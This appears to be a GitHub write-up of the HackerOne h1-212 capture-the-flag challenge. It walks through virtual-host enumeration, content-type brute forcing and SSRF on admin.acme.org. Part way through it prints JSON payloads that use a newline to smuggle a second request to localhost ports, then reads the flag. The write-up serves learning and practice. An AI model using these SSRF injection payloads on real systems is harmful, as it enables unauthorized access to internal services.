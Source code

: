 # h1-212

OK here is my write up 


so first i start brute force and crawl directory to check if possible to get some files there

then i used virtual-host-discovery tool to get all virtual host there 

Found: www.acme.org (200)

Found: dev.acme.org (200)

Found: local (200)

Found: localhost (200)

Found: status.acme.org (200)

Found: status (200)

Found: staging.acme.org (200)

Found: staging (200)

Found: development (200)

Found: development.acme.org (200)

Found: uat (200)

Found: uat.acme.org (200)

Found: acme.org (200)

Found: beta (200)

Found: beta.acme.org (200)

Found: secure (200)

Found: secure.acme.org (200)

Found: mobile (200)

Found: mobile.acme.org (200)

Found: 127.0.0.1 (200)

Found: m.acme.org (200)

Found: m (200)

Found: admin (200)

Found: admin.acme.org (200)

Found: old (200)

Found: old.acme.org (200)

Found: v1.acme.org (200)

Found: v1 (200)

Found: v2.acme.org (200)

Found: v2 (200)

Found: v3.acme.org (200)

Found: v3 (200)

Found: alpha (200)

Found: alpha.acme.org (200)

so as description said : admin.acme.org this is the one :D 
(An engineer of acme.org launched a new server for a new admin panel)
```
root@ip-172-31-20-83:/home/ubuntu# curl -I http://admin.acme.org
HTTP/1.1 200 OK
Date: Sat, 18 Nov 2017 22:59:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Type: text/html; charset=UTF-8
```
next i start get 406 

![image](https://user-images.githubusercontent.com/7364615/32996613-4079913c-cd85-11e7-8b8c-6ba8b8aa1192.png)

so i get some stackoverflow solution which ask to look for good content-type
```
https://stackoverflow.com/questions/14251851/what-is-406-not-acceptable-response-in-http
```

brute force all type possible get that application/json is the one :d

![image](https://user-images.githubusercontent.com/7364615/32996624-64af4498-cd85-11e7-8b15-b046b0d6b4de.png)


THEN START PLAY WITH JSON DATA 

![image](https://user-images.githubusercontent.com/7364615/32996628-6e864b56-cd85-11e7-9749-30779d47e516.png)

Until fix that output 


And after send domain 
![image](https://user-images.githubusercontent.com/7364615/32996636-7dab1698-cd85-11e7-8a26-a8c27b0cfab0.png)

so when domain is valid we get data base64

![image](https://user-images.githubusercontent.com/7364615/32996640-8aa5e800-cd85-11e7-80e4-04356e646d68.png)

which is the source code of that website

:D its look ssrf here guys :D


lets bypass .com and 212 containe

after read alot from here (thx orange ) and other article 
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

i notice i can use "feed line" to make 2 request or more !!

and then make brute force wen found some open port 22,1337
```
{"domain":"localhost:1337/flag\n212.test.com"}  
{"domain":"localhost/server-status\n212.test.com"} 
```

![image](https://user-images.githubusercontent.com/7364615/33026321-766f86f8-ce10-11e7-9fdd-544673744e51.png)


with this data it will increment id+2

id+1 for localhost and id+2 for 212.test.com


So just get request of the id+1 get make us read the flag 

then base64 flag data and pwn it :D

1337 : leet port :D

![image](https://user-images.githubusercontent.com/7364615/33025984-b0f7e3f2-ce0f-11e7-8513-ee303f78c264.png)

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6


Amazing ctf :D
